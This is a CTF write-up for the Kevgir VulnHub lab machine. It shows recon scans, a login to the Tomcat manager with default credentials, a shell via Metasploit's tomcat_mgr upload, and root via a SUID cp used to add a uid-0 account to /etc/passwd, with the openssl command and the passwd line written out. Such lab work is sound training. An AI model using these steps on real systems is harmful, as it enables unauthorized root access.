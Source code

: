 ```yaml
---
layout: single
tags: vulnhub
title: Kevgir Writeup
date: 2019-12-14
classes: wide
excerpt: Kevgir is a vulnhub machine intended for beginners.
---
```

# Kevgir Writeup

Kevgir is a vulnhub machine intended for beginners that was created by canyoupwn.me team so that you can train your hacking practices and exploitation.

## Recon
### Nmap scan
```
PORT     STATE SERVICE     VERSION
25/tcp   open  ftp         vsftpd 3.0.2
|_smtp-commands: SMTP: EHLO 530 Please login with USER and PASS.\x0D
80/tcp   open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Kevgir VM
111/tcp  open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100003  2,3,4       2049/udp   nfs
|   100003  2,3,4       2049/udp6  nfs
|   100005  1,2,3      38084/udp   mountd
|   100005  1,2,3      44281/udp6  mountd
|   100005  1,2,3      46603/tcp   mountd
|   100005  1,2,3      60512/tcp6  mountd
|   100021  1,3,4      35395/tcp6  nlockmgr
|   100021  1,3,4      51380/udp   nlockmgr
|   100021  1,3,4      58884/udp6  nlockmgr
|   100021  1,3,4      60308/tcp   nlockmgr
|   100024  1          38950/tcp   status
|   100024  1          41925/udp6  status
|   100024  1          44488/tcp6  status
|   100024  1          45900/udp   status
|   100227  2,3         2049/tcp   nfs_acl
|   100227  2,3         2049/tcp6  nfs_acl
|   100227  2,3         2049/udp   nfs_acl
|_  100227  2,3         2049/udp6  nfs_acl
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.1.6-Ubuntu (workgroup: WORKGROUP)
1322/tcp open  ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 17:32:b4:85:06:20:b6:90:5b:75:1c:6e:fe:0f:f8:e2 (DSA)
|   2048 53:49:03:32:86:0b:15:b8:a5:f1:2b:8e:75:1b:5a:06 (RSA)
|   256 3b:03:cd:29:7b:5e:9f:3b:62:79:ed:dc:82:c7:48:8a (ECDSA)
|_  256 11:99:87:52:15:c8:ae:96:64:73:d6:49:8c:d7:d7:9f (ED25519)
2049/tcp open  nfs_acl     2-3 (RPC #100227)
8080/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
| http-methods: 
|_  Potentially risky methods: PUT DELETE
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat
8081/tcp open  http        Apache httpd 2.4.7 ((Ubuntu))
|_http-generator: Joomla! 1.5 - Open Source Content Management
| http-robots.txt: 14 disallowed entries 
| /administrator/ /cache/ /components/ /images/ 
| /includes/ /installation/ /language/ /libraries/ /media/ 
|_/modules/ /plugins/ /templates/ /tmp/ /xmlrpc/
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Welcome to the Frontpage
9000/tcp open  http        Jetty winstone-2.9
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Jetty(winstone-2.9)
|_http-title: Dashboard [Jenkins]
Service Info: Host: CANYOUPWNME; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -40m01s, deviation: 1h09m16s, median: -1s
|_nbstat: NetBIOS name: CANYOUPWNME, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Unix (Samba 4.1.6-Ubuntu)
|   Computer name: canyoupwnme
|   NetBIOS computer name: CANYOUPWNME\x00
|   Domain name: 
|   FQDN: canyoupwnme
|_  System time: 2019-12-14T00:39:29+02:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2019-12-13T22:39:29
|_  start_date: N/A

```
### Website - Port 80
Just shows us the default index of the apache

### Website - Port 8080
In this port we can see that we have a tomcat instance running and has the default index  so without further ado let us do our directory scanning.

#### Tomcat - directory scan:
```
http://kevgir.vuln:8080/%2e%2e//google.com
http://kevgir.vuln:8080/a%5c.Kevgir.ctb
http://kevgir.vuln:8080/a%5c.aspx
http://kevgir.vuln:8080/cmd
http://kevgir.vuln:8080/docs/
http://kevgir.vuln:8080/docs
http://kevgir.vuln:8080/examples/servlets/servlet/CookieExample
http://kevgir.vuln:8080/examples/servlets/servlet/RequestHeaderExample
http://kevgir.vuln:8080/examples
http://kevgir.vuln:8080/examples/servlets/index.html
http://kevgir.vuln:8080/examples/
http://kevgir.vuln:8080/host-manager/html
http://kevgir.vuln:8080/index.html
http://kevgir.vuln:8080/manager/
http://kevgir.vuln:8080/manager/html
http://kevgir.vuln:8080/manager
http://kevgir.vuln:8080/manager/html/
http://kevgir.vuln:8080/META-INF


```
### Initial foothold
Going to the manager greets us a login form that looks like this

![Screenshot_2019-12-15_07-12-54.png](/assets/images/kevgir/3fea52f8.png)

Trying out the default creds 
```
tomcat:s3cret
``` 
didn't work but ```tomcat:tomcat``` does.

![Screenshot_2019-12-15  manager.png](/assets/images/kevgir/89dc04d6.png)
At this point the only thing I have left to do was to get a shell for my initial foothold so I went to msfconsole and used its module ```tomcat_mgr upload``` to gain shell.

![Screenshot_2019-12-15_07-26-19.png](/assets/images/kevgir/884dcddd.png)

### Root

By checking the SUID binaries by using this command ```find / -perm -4000 -type f``` we can see multiple binaries that we can run with root priviledges.
```
/bin/umount
/bin/fusermount
/bin/ping6
/bin/mount
/bin/ping
/bin/su
/bin/cp
/usr/bin/sudo
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chfn
/usr/bin/at
/usr/bin/mtr
/usr/bin/pkexec
```
Since ```cp``` can run with root priviledges we can use that to copy /etc/passwd to the /tmp so that we can edit it. 

![Screenshot_2019-12-15_07-33-11.png](/assets/images/kevgir/f175a4b8.png)

#### The Plan
The plan here was to add an account in /etc/passwd that has the id and groupid of user root and we can do that by following these steps.

1. generate a password through openssl.
```
-> openssl passwd -1 -salt shin test 
-> $1$shin$u5Pr76df2Y.4dizOBFnYU1
```
2. Start editing the file and insert a line like this:
```
shin:$1$shin$u5Pr76df2Y.4dizOBFnYU1:0:0:Shin:/root:/bin/bash
```
3. Copy the file back to /etc
4. su to your username and boom we got root.
#### Rooted

![Screenshot_2019-12-15_07-43-05.png](/assets/images/kevgir/69cf0aa1.png)

#### Additional Information
This is not the only way to root the machine as you can see we have numerous ports open to get initial foothold but this time I chose tomcat because I was much more comfortable with it anways this box is really good for beginners as it teaches you how to get shells from different cms, and it teaches you about SUID too anyways thanks for reading and stay tune. 